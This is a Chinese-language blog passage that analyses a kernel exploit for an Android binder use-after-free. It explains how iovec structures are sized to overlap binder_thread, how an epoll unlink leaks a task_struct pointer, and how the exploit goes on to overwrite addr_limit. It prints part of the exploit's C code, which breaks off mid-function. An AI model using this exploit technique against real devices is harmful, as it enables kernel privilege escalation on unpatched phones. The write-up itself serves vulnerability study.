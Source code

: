 ``` c
```

很好理解，exp这部分首先初始化环境之后创建用于readv和writev的pipe，readv和writev函数用于在一次函数调用中读、写多个非连续缓冲区。修改pipe的size为0x1000。

之后创建了25个iovec，放在iovecStack里面。25个是根据binder_thread和iovec的大小算出来

`IOVEC_WQ_INDEX (int) = (offsetof(struct binder_thread, wait) / sizeof(struct iovec))`

binder_thread结构体大小为408，25个iovec大小为25*16=400，正好。计算对比**binder_thread**中wait.head的偏移0xA0和**iovecStack**的偏移iovecStack[10].iov_len匹配。

![](https://my-md-1253484710.file.myqcloud.com/20200629155854.png)

前面动态调试时也能看到会有两个地址的值会被写入地址，这里相对应的位置为iovecStack[10].iov_len 和iovecStack[11].io_base。所以我们这里要修改iovecStack[10]的iov_len和pipe一样的大小，阻塞掉父进程的writev系统调用，再去触发unlink操作。

这里的iovecStack[10].io_base正好对上binder_thread->wait.lock，如果这个值不为0的话，后面在尝试取自旋锁锁会出问题，不进行unlink操作，这个值是32bit的，iov_base是64bit的，所以要设置对齐，使用mmap保证低32bit为0。

iovecStack[10].iov_len和iovecStack[11].iov_len设置为pipe size的大小，iovecStack[11].io_base 设置为新分配的一个地址，

创建fork子进程进行EPOLL_CTL_DEL操作触发unlink。读出0x1000 bytes的垃圾数据恢复进程，

父进程free掉binder_thread，调用writev系统进行阻塞，等待子进程完成。

最后父进程在调用read读出已经被子进程覆盖了内核地址处的数据，根据偏移读出泄露的task_struct指针。

下面这张图是**Project Zero** blog贴出来的流程图，方便理解整个过程。

![](https://my-md-1253484710.file.myqcloud.com/20200629014014.png)

既然已经有task_struct指针，接下来就可以patch 掉AddrLimit。直接看exp实现。

```c
void BinderUaF::clobberAddrLimit() {
    int sock_fd[2] = {0};
    ssize_t nBytesWritten = 0;
    struct msghdr message = {nullptr};
    struct iovec iovecStack[IOVEC_COUNT] = {nullptr};
    // Get binder fd
    setupBinder();
    // Create event poll
    setupEventPoll();
    INFO("[+] Setting up socket\n");
    if (socketpair(AF_UNIX, SOCK_STREAM, 0, sock_fd) == -1) {
        ERR("\t[-] Unable to create socketpair\n");
        exit(EXIT_FAILURE);
    } else {
        INFO("\t[*] Socketpair created successfully\n");
    }
    //
    // We will just write junk data to socket so that when recvmsg
    // is called it process the fist valid iovec with this junk data
    // and then blocks and waits for the rest of the data to be received
    //
    static char junkSocketData[] = {
            0x41
    };
    INFO("[+] Writing junk data to socket\n");
    nBytesWritten = write(sock_fd[1], &junkSocketData, sizeof(junkSocketData));
    if (nBytesWritten != sizeof(junkSocketData)) {
        ERR("\t[-] write failed. nBytesWritten: 0x%lx, expected: 0x%lx\n", nBytesWritten, sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }
    //
    // Write junk data to the socket so that when recvmsg is
    // called, it process the first valid iovec with this junk
    // data and then blocks for the rest of the incoming socket data
```